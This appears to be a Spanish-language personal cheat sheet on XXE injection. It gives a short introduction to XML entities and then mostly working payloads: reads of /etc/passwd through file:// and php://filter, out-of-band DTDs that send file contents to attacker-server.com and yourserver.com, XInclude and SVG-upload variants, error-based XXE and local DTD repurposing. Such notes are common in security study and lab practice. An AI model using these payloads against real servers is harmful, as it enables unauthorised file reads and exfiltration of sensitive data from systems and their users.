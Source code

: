 -- -
## Entidades:
Las entidades son una forma de representar un elemento de datos sin referenciar a los datos como tal, todo esto en un documento XML.

**Tipos de entidades:**
- Genéricas / Customizadas
- Externas (XXE)
- Predefinidas ---> General Entities
	- &lt (Lower Than);
	- &gt (Grater Than); 
- Entidades Parametricas ---> %nombre_entidad;
### Ejemplo de una estructura XML
```xml
<?xml version="1.0" encoding="UTF-8"?> ---> Declaración XML
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> ---> DTD (Document Type Definition)

<root>
	<name>fran</name>
	<tel>5454545as</tel>
	><email>fran@fran.com</email>
	><password>fran123</password>
</root>
```

-- -
# Normal XXE 
## Payloads: 
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
 ```

-- - 
# XXE Out Of Band interaction (OOB) 
## Payloads
 - Estas mismas son lo mismo que las anteriores solo que a ciegas:
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]> # ---> Lo declaro ahi mismo ya que a veces no te deja declararlo en el propio cuerpo. 
```

**Archivo malicious.dtd 1:**
- Usa el wrapper de PHP "php://filter/convert.base64-encode/resource=/etc/passwd" para leer y codificar en Base64 el archivo /etc/passwd.
- Luego, intenta exfiltrar el contenido con una entidad exfil que envía la información a attacker-server.com.
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> 
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker-server.com/?file=%file;'>">
%stack; 
%exfil;
```

**Archivo malicious.dtd 2:**
- Define una entidad %file que lee /etc/passwd.
- Usa %stack para declarar exfil, que envía el contenido a un servidor remoto.
- Finalmente, ejecuta %stack; para que se resuelva la entidad.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker-server.com/?file=%file;'>">
%stack;
```

**Archivo malicious.dtd 3:**
- Igual que `malicious.dtd 2` solo que no ejecuta la entidad.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker-server.com/?file=%file;'>">
```

**Archivo malicious.dtd 4:**
- Intenta leer /etc/passwd.
- Usa error para forzar la lectura desde file://idontexist/%file;, lo que podría desencadenar un error útil para exfiltración indirecta (error-based XXE).
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```
---
# Xinclude XXE 
### Testing
- Primero probamos declarar una entidad url-encodeada para ver como reacciona el servidor
```http
productId=1&storeId=1 ---> Request original
productId=%26entity%3b&storeId=1 ---> Entidad declarada y url-encodeada
```
- Si el servidor nos responde con una respuesta similar a "Entities are not allowed for security reasons" significa que esta procesando las entidades declaradas y el codigo XML.
## Payloads
**Normal Xinclude Injection**
```xml 
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="file:///etc/passwd" parse="text"/></foo>
```

**OOB**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://yourserver.serveo.net?data=file:///etc/passwd" parse="text"/></foo> 
```
---
# XXE via image File Upload
## Payloads
**Normal**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>

<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```
**OOB**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % send SYSTEM "http://yourserver.com/?data=%file;">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&send;</text>
</svg>

<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % send SYSTEM "http://yourserver.com/?data=%file;">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&send;</text>
</svg>
```

**Xinclude**
```xml
<?xml version="1.0"?>
<svg xmlns="http://www.w3.org/2000/svg"
     xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</svg>
```
-- -
# XXE by repurposing local DTD 
### Testing
- Buscamos donde esta el local dtd en el sistema enviando este codigo xml como body al intruder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % myFile SYSTEM "file://LIST_WITH_LOCAL_DTD"> 
%myFile;]>
```

```xml 
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///LOCAL_DTD">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///FILE_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;

```
---
## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 
- Siempre si no funciona probar sacar el %.

